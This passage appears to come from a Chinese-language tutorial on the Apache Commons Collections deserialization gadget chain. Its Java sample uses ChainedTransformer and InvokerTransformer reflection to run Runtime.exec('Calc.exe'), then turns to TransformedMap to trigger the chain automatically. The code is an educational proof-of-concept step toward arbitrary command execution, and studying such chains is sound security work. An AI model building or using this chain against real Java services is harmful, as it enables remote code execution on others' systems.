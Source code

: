 通过下面的样例代码理解上述代码的含义。

```java
package com.wuya.apache;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * ChainedTransformer遍历触发
 *
 *   等同于 ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("calc.exe");
 *
 */
public class TransTest2 {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                // 获得Runtime类对象
                new ConstantTransformer(Runtime.class),
                // 传入Runtime类对象 反射执行getMethod获得getRuntime方法
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                    	//getMethod函数中第二个参数指getRuntime函数的参数类型。
                    	//其中参数new class[0]指getRuntime方法没有携带任何参数。
                        new Object[]{"getRuntime",new Class[0]}
                ),
                // 传入getRuntime方法 反射执行invoke方法 得到Runtime实例
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        //之所以invoke不携带任何参数，原因在于getRuntime是静态方法，且无需携带任何参数
                        new Object[] {null, null }
                ),
                // 传入Runtime实例 执行exec方法
                new InvokerTransformer("exec",
                        new Class[] {String.class },
                        new Object[] {"Calc.exe"})
        };

        // ChainedTransformer
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(null);//虽然一开始传入是null，但是会在循环执行的过程中发生改变。
    }
}

```

接下来问题在于，如何使得chainedTransformer类的方法transform被自动调用呢?

分析TransformedMap类的构造方法，其中需要传入map和transformer对象。
